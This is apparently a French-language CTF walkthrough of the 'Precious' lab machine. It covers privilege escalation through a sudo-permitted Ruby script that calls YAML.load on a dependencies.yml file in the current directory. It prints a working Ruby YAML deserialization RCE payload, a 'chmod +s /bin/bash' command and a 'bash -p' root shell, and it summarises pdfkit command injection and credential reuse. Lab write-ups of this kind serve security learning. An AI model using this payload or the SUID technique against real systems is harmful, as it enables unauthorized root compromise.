```bash
cat /opt/update_dependencies.rb
```

Résultat :

```ruby
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

La ligne importante est celle-ci :

```ruby
YAML.load(File.read("dependencies.yml"))
```

Le script charge un fichier nommé `dependencies.yml` sans chemin absolu. Il ne lit donc pas forcément un fichier situé dans `/opt`, mais le fichier `dependencies.yml` présent dans le répertoire courant au moment de l’exécution.

Comme le script est lancé avec les droits `root`, un fichier `dependencies.yml` contrôlé peut devenir exploitable.

### Recherche d’un payload YAML Ruby générique

À ce stade, tu sais que le script utilise `YAML.load` sur un fichier `dependencies.yml` contrôlé depuis le répertoire courant.

La recherche doit rester générique et ne pas viser directement la machine Precious, afin d’éviter les solutions déjà publiées du challenge. L’objectif est de comprendre le mécanisme Ruby, pas de chercher un writeup.

Une recherche pertinente est par exemple :

```
ruby YAML.load system command
```



Cette recherche permet de trouver l’article générique **Universal RCE with Ruby YAML.load (versions > 2.7)** publié par Staaldraad, sans passer par une solution dédiée à Precious.

L’article présente un payload YAML Ruby générique utilisant `YAML.load` et indique que la commande à exécuter se place dans l’entrée `git_set`.

```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
```


### Préparation d’un répertoire de travail

`/var/tmp` est moins susceptible d’être nettoyé pendant la session que `/tmp` ou `/dev/shm`.

```bash
cd /var/tmp
```

Tu crées ensuite un fichier `dependencies.yml`. Ce fichier contiendra d’abord un payload YAML Ruby avec une commande simple de validation, puis le même payload adapté avec la commande définitive permettant d’obtenir un accès root.

```bash
nano dependencies.yml
```

### Test de `YAML.load` avec une commande simple

Le script utilise `YAML.load`, qui peut désérialiser des objets Ruby complexes. Dans ce contexte, tu peux utiliser un payload YAML générique pour Ruby afin de déclencher l’exécution d’une commande système.

Pour commencer proprement, tu testes avec une commande non destructive :

```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id > /var/tmp/cracked.txt
         method_id: :resolve
```

La partie importante est :

```yaml
git_set: id > /var/tmp/cracked.txt
```

Cette commande permet de vérifier si l’exécution se fait bien avec les droits `root`.

Tu lances ensuite le script autorisé par `sudo`, en restant bien dans `/var/tmp` :

```bash
sudo /usr/bin/ruby /opt/update_dependencies.rb
```

Puis tu vérifies le contenu du fichier créé :

```bash
cat /var/tmp/cracked.txt
```

Résultat attendu :

```bash
uid=0(root) gid=0(root) groups=0(root)
```

La commande `id` a bien été exécutée avec les droits `root`.

### Exploitation avec un Bash SUID

Après avoir validé l’exécution de commande, tu remplaces la commande de test par une commande permettant d’obtenir un shell root.

Dans `dependencies.yml`, tu remplaces :

```yaml
git_set: id > /var/tmp/cracked.txt
```

par :

```yaml
git_set: chmod +s /bin/bash
```

Le bit SUID permet à `/bin/bash` de conserver les privilèges effectifs du propriétaire du fichier, ici `root`, à condition de le lancer avec l’option `-p`.

Tu relances ensuite le script autorisé par `sudo`, en restant dans `/var/tmp` :

```bash
sudo /usr/bin/ruby /opt/update_dependencies.rb
```

Puis tu vérifies les permissions de `/bin/bash` :

```bash
ls -l /bin/bash
```

Résultat attendu :

```bash
-rwsr-sr-x 1 root root ... /bin/bash
```

Le `s` sur le bit d’exécution du propriétaire indique que le bit SUID est actif.

Tu peux maintenant lancer Bash en conservant les privilèges effectifs de `root` :

```bash
bash -p
```

Tu vérifies ton identité :

```bash
id
```

Résultat attendu :

```bash
uid=1000(henry) gid=1000(henry) euid=0(root) groups=1000(henry)
```

Le point important est :

```bash
euid=0(root)
```

Le shell s’exécute avec les privilèges effectifs de `root`.

### Lecture du flag root

Il ne reste plus qu’à lire le flag final :

```bash
cat /root/root.txt
108axxxxxxxxxxxxxxxxxxxxxxxxca68
```

L’obtention d’un shell avec `euid=0(root)` confirme le contrôle root de la machine. La lecture de `root.txt` marque la fin de l’escalade de privilèges et du challenge CTF.


## Conclusion

La machine **Precious.htb** illustre une chaîne d’exploitation courte, mais très formatrice.

La prise de pied commence par une fonctionnalité web apparemment simple : la génération d’un PDF à partir d’une URL. L’analyse du fichier généré permet d’identifier `pdfkit 0.8.6`, puis d’exploiter une injection de commande pour obtenir un premier accès sur la machine avec l’utilisateur `ruby`.

La progression repose ensuite sur une étape classique en post-exploitation : examiner les fichiers accessibles à l’utilisateur courant. La recherche de références à `henry` permet de retrouver des identifiants locaux dans la configuration Bundler, puis de les réutiliser pour ouvrir une session SSH avec cet utilisateur.

L’escalade de privilèges montre enfin l’importance de vérifier systématiquement les droits `sudo`. Ici, `henry` peut exécuter en root un script Ruby qui charge un fichier `dependencies.yml` avec `YAML.load`. En contrôlant ce fichier depuis `/var/tmp`, tu peux provoquer l’exécution d’une commande système, poser le bit SUID sur `/bin/bash`, puis obtenir un shell root avec `bash -p`.

Precious est donc une bonne machine pour consolider plusieurs réflexes essentiels : analyser les métadonnées d’un fichier généré, identifier une version vulnérable, rechercher des identifiants lisibles localement, puis exploiter prudemment un droit `sudo` mal configuré. Une fois le shell root obtenu et `root.txt` lu, le challenge CTF est terminé.


